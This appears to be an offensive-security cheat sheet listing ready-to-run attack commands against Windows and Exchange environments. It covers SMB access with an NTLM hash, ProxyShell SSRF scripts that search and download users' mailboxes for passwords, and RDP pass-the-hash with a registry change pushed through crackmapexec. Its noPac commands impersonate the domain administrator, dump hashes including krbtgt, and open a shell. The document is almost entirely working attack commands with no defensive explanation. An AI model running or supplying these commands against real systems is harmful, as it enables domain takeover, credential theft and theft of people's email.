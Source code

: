 ##### SMB SHARES #####

```bash
without credentials : smbclient -L 172.16.1.0 

without credentials access : smbclient  \\\\172.16.1.0\\$share

with credentials : smbclient -L 172.16.1.0  -U=user%password

with credentials access : smbclient \\\\172.16.1.0\\$share  -U=user%password

with ntlm access : smbclient \\\\172.16.1.0\\$share -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local

mount smb share : sudo mkdir /tmp/data; sudo mount -t cifs -o 'user=USER,password=PASSWORD' //10.0.2.80/shareapp /tmp/data
```

##### PROXYSHELL #####

```bash
check exchange ssrf and get all emails : python3 Exchange_SSRF_Attacks.py --target mail.exchange.com --action Get

Search Mails And Download (include attachment) : python Exchange_SSRF_Attacks.py --target mail.exchange.com --action SearchM --email userwantdown@exchange.com --keyword "password"

Download users emails : python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Download --email userwantdown@exchange.com
```

##### RDP #####

```bash
access with credentials : xfreerdp /u:"user" /p:"password" /v:172.16.1.36:3389 +clipboard /cert-ignore /size:1366x768 /smart-sizing

acess with ntlm : xfreerdp /u:"user" /pth:"ntlm" /v:172.16.1.36:3389 +clipboard /cert-ignore /size:1366x768 /smart-sizing

edit reg to login with the ntlm hash : REG add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f

use crackmapexec (as admin) : crackmapexec smb 192.168.1.10 -u dom_admin -p dom_admin_password -x 'REG add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f'

```

##### NOPAC #####

```bash
scanner : python scanner.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203

dump hashes : python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host eu.accor.net --impersonate administrator -dump

dump hashes : python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 --impersonate administrator -dump -just-dc-user cgdomain/krbtgt

get shell : python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 -shell --impersonate administrator 
```
